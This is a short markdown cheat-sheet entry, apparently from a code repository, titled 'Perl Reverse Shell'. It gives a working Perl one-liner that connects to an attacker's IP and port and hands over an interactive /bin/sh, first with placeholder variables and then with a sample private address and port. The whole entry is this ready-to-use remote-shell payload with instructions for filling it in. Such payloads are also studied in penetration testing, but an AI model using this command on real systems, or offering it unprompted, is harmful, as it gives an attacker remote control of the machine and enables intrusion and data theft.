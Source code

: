 ## Perl Reverse Shell

> Note: single quotes were avoided so that it can be wrapped in `'`${SHELL}`'`

Replace `${ATTACKER_IP}` and `${ATTACKER_LISTENER_PORT}` below:

```
perl -e 'use Socket;$i="${ATTACKER_IP}";$p=${ATTACKER_LISTENER_PORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

e.g.

```
perl -e 'use Socket;$i="192.168.45.239";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
